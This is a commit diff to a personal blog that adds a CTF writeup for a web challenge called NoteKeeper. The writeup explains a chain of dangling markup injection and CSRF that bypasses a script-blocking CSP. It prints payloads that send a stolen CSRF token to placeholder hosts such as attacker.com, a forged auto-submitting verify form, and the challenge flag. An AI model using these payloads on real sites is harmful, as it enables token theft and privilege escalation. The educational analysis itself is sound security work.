

Before and after one commit to Khalil-420/Khalil-420.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 900 px high. Shown: the whole window, without its empty margins (242-1037 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
add cybertek writeups

````diff
--- a/_posts/2025-05-04-shopzone-nosql-injection-writeup.md
+++ b/_posts/2025-05-04-shopzone-nosql-injection-writeup.md
@@ -1,10 +1,10 @@
 ---
 layout: post
 title: "ShopZone CTF — Blind NoSQL Injection & ObjectId Leak Writeup"
-date: 2025-04-01
+date: 2025-05-04
 category: ctf
 difficulty: medium
-platform: CYBERTEK
+platform: CyberTEK
 tags: [nosql-injection, blind-injection, mongodb, objectid, web, ctf]
 description: "Exploiting blind NoSQL injection to leak a MongoDB ObjectId, extract machine bytes from pymongo 3.6.1, and derive a secret file path to read the flag."
 ---
--- /dev/null
+++ b/_posts/2026-05-04-cybertek-notekeeper-writeup.md
@@ -0,0 +1,277 @@
+---
+layout: post
+title: "CyberTEK CTF — NoteKeeper Web Challenge Writeup"
+date: 2026-05-04
+category: ctf
+difficulty: medium
+platform: CyberTEK
+tags: [web, xss, csrf, dangling-markup, csp-bypass, ctf]
+description: "Chaining Dangling Markup Injection and CSRF to steal a CSRF token and get an admin bot to verify our account — without executing a single line of JavaScript."
+---
+
+## The Challenge
+
+**NoteKeeper** is a note-taking app where you can write notes, share them, and report them to an admin bot. The flag is only visible to users with `status == "verified"`. New users start as `pending`. Only the admin can verify accounts.
+
+The goal: get the admin to verify our account.
+
+---
+
+## Recon
+
+The app has four key routes:
+
+- `POST /note/new` — create a note (content stored as-is)
+- `GET /note/<uuid>` — view a note
+- `POST /verify/<username>` — admin-only: set a user's status to `"verified"`
+- `POST /report` — report a note UUID; the bot visits `/note/<uuid>` as admin
+
+---
+
+## Source Code Analysis
+
+### The XSS Sink
+
+In `note_view.html`, note content is rendered with Jinja2's `| safe` filter:
+
+```html
+<div class="note-content">{{ note.content | safe }}</div>
+```
+
+No sanitization. Any HTML we put in a note is rendered raw in the browser.
+
+### The CSRF Form
+
+Still in `note_view.html`, there's a verify form that the admin can use to verify the note's author. It's rendered for **every visitor**, including the admin bot:
+
+```html
+<form id="verify-form" method="POST" action="/verify/{{ note.author.username }}">
+  <input type="hidden" value="{{ csrf_token() }}" name='csrf_token'>
+</form>
+```
+
+Two things to notice:
+1. The form action targets the **note author** — so whoever writes the note gets verified when the form submits.
+2. The CSRF token is **already embedded** in the page HTML for the admin's session.
+
+### The CSP — No Scripts Allowed
+
+In `app/__init__.py`, the CSP header is:
+
+```
+default-src 'none';
+style-src 'nonce-{nonce}';
+form-action 'self';
+base-uri 'none';
+```
+
+- `default-src 'none'` with no `script-src` override → **all scripts are blocked**
+- `form-action 'self'` → forms can only POST to the same origin ✅
+- No `navigate-to` directive → **`<meta http-equiv="refresh">` is unrestricted**
+
+We can't run JavaScript. But we can navigate the bot with a meta refresh.
+
+---
+
+## Background: What is CSRF?
+
+**Cross-Site Request Forgery (CSRF)** is an attack where a malicious page tricks a victim's browser into making a request to another site — **using the victim's session**.
+
+Here's the classic scenario:
+
+1. Alice is logged into `bank.com`. Her browser holds a session cookie for it.
+2. Alice visits `evil.com`, which contains a hidden form:
+   ```html
+   <form method="POST" action="https://bank.com/transfer">
+     <input name="amount" value="1000">
+     <input name="to" value="attacker">
+   </form>
+   <script>document.forms[0].submit()</script>
+   ```
+3. Her browser submits the form to `bank.com` — with her session cookie attached automatically.
+4. The bank sees a valid authenticated request and processes the transfer.
+
+Alice never intended to do this. The attack worked because the browser automatically sends cookies for any request to a domain, regardless of which page triggered it.
+
+### The Defense: CSRF Tokens
+
+To stop this, servers issue a **CSRF token** — a random secret tied to the user's session. It's embedded as a hidden field in every sensitive form:
+
+```html
+<input type="hidden" name="csrf_token" value="a3f9...random...b2c1">
+```
+
+When the form is submitted, the server checks that the token matches. A cross-origin attacker can't read the token (blocked by the browser's Same-Origin Policy), so they can't forge a valid request.
+
+### The Catch
+
+CSRF tokens only protect you if **the attacker can't read them**. If an attacker can somehow extract the token from the page — via XSS, dangling markup, or any other leak — the protection collapses entirely.
+
+That's exactly what we do in this challenge.
+
+---
+
+## The Vulnerability: Dangling Markup Injection
+
+Since scripts are blocked, we need a way to make the admin bot perform the verify POST **without JavaScript**. The trick is to steal the CSRF token from the page first, then use it.
+
+### What is Dangling Markup Injection?
+
+When an HTML injection doesn't close its attribute properly, the browser's HTML parser keeps reading forward as part of the attribute value — "dangling" into the rest of the page. This lets an attacker capture subsequent page content (like a CSRF token) inside an attribute value and send it to an attacker-controlled server.
+
+**Example:** if a page contains:
+
+```html
+[INJECTION POINT]
+<input type="hidden" value="SECRET_TOKEN" name="csrf_token">
+```
+
+And we inject:
+
+```html
+<img src="https://attacker.com/?x=
+```
+
+The parser sees an unclosed `src` attribute. It reads forward until the next `"` — which is the closing quote of `value="SECRET_TOKEN"`. The browser tries to load:
+
+```
+https://attacker.com/?x=\nSECRET_TOKEN
+```
+
+The token is now in the attacker's server logs.
+
+### Applying It Here
+
+In `note_view.html`, our injection point (the note content) comes **before** the verify form. The rendered HTML looks like:
+
+```html
+<div class="note-content">[OUR INJECTION]</div>
+...
+<form id="verify-form" method="POST" action="/verify/attacker">
+  <input type="hidden" value="THE_CSRF_TOKEN" name='csrf_token'>
+</form>
+```
+
+We inject a `<meta http-equiv="refresh">` with an unclosed `content` attribute:
+
+```html
+<meta http-equiv="refresh" content='0; url=https://attacker.com/?x=
+```
+
+The parser reads this as the `content` attribute value, then keeps consuming HTML until it hits the next `'`. The bot's browser navigates to:
+
+```
+https://attacker.com/?x=...\n...<input type="hidden" value=THE_CSRF_TOKEN
+```
+
+The CSRF token arrives at our server in the URL.
+
+---
+
+## The Full Attack Chain
+
+### Step 1 — Register and Create the Note
+
+Register as `attacker`. Create a note with the dangling markup payload:
+
+```html
+<meta http-equiv="refresh" content='0; url=https://YOUR-SERVER/?x=
+```
+
+Note the unclosed `content` attribute — that's intentional.
+
+### Step 2 — Report the Note
+
+Go to `/report`, submit the note's UUID. The bot logs in as admin and visits `/note/<uuid>`.
+
+### Step 3 — Token Arrives at Your Server
+
+The bot's browser fires the meta refresh and navigates to your server. The URL contains the CSRF token buried in the query string:
+
+```
+GET /?x=%0A%3Cinput+type%3D%22hidden%22+value%3DTHE_CSRF_TOKEN
+```
+
+### Step 4 — Serve a Form That Uses the Token
+
+Your server extracts the CSRF token from the URL and responds with a page that auto-submits a verify POST back to the challenge, using the bot's still-active admin session:
+
+```html
+<html>
+<body>
+<form id="f" method="POST" action="http://127.0.0.1:8080/verify/attacker">
+  <input name="csrf_token" value="EXTRACTED_TOKEN">
+</form>
+<script>document.getElementById('f').submit()</script>
+</body>
+</html>
+```
+
+The bot (still authenticated as admin) loads this page. The form submits to `/verify/attacker` with the valid CSRF token and the admin's session cookie. The challenge accepts it and sets `attacker`'s status to `"verified"`.
+
+
+### Step 5 — Get the Flag
+
+Log in as `attacker`. The flag is displayed on the homepage and on any note view page.
+
+---
+
+## What Happens Under the Hood
+
+```
+Step 1: Attacker creates note with unclosed <meta> tag
+            │
+            ▼
+Step 2: Bot visits /note/<uuid> as admin
+            │
+            ▼
+Step 3: HTML parser sees unclosed content=' attribute
+        → consumes page HTML until next quote
+        → CSRF token leaks into the meta refresh URL
+            │
+            ▼
+Step 4: Bot navigates to attacker's server with token in URL
+            │
+            ▼
+Step 5: Attacker's server extracts token, serves auto-submit form
+            │
+            ▼
+Step 6: Bot (as admin) submits POST /verify/attacker with valid CSRF token
+            │
+            ▼
+Step 7: attacker's status → "verified" → flag revealed
+```
+
+---
+
+## Why `<script>` Alone Doesn't Work
+
+The CSP blocks all scripts on the challenge domain:
+
+```
+default-src 'none';   ← no script-src → scripts blocked
+```
+
+A naive `<script>document.getElementById('verify-form').submit()</script>` is killed by the browser before it runs. We need a **markup-only** approach — no JS on the challenge origin.
+
+The `<meta http-equiv="refresh">` tag is a navigation primitive, not a script. The CSP has no `navigate-to` directive to restrict it, so it fires freely.
+
+---
+
+## Key Concepts
+
+| Concept | How It Appears Here |
+|---|---|
+| Stored XSS sink | `{{ note.content \| safe }}` renders raw HTML |
+| Dangling Markup Injection | Unclosed `<meta content="` leaks subsequent HTML to attacker |
+| CSRF token theft | Token captured in dangling meta refresh URL |
+| Cross-origin form submit | Bot uses its admin session to POST from attacker's page |
+| CSP bypass | `<meta>` navigation is unrestricted; JS runs freely on attacker's server |
+
+---
+
+## Flag
+
+```
+CyberTEK{dangl_dangl_to_reach_it_from_the_outside}
+```
````
